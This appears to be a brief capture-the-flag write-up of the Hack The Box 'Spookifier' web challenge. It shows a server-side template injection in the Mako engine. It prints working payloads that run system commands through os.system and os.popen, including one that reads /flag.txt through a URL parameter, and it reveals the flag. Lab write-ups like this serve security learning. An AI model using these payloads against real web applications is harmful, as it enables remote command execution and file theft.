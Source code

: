 # Spookifier - web challenge

So here we have an SSTI vuln

The template engine is Mako, reading from payloads and all the things we get to come up with with a payload to get the flag as we need it

- to automate you can use tplmap.py

this one did not work as it was not able to get a shell on the system

`${self.module.cache.util.os.system("id")}` from payloads all the things did not quite work as intended so tried to get it work and adjust for our needs..

`{7*7}`

url encoded the command to get the flag

checked for the root directory content

`?text=${self.module.cache.util.os.popen("cat /flag.txt").read()}`

Flag:`HTB{t3mpl4t3_1nj3ct10n_1s_$p00ky!!}`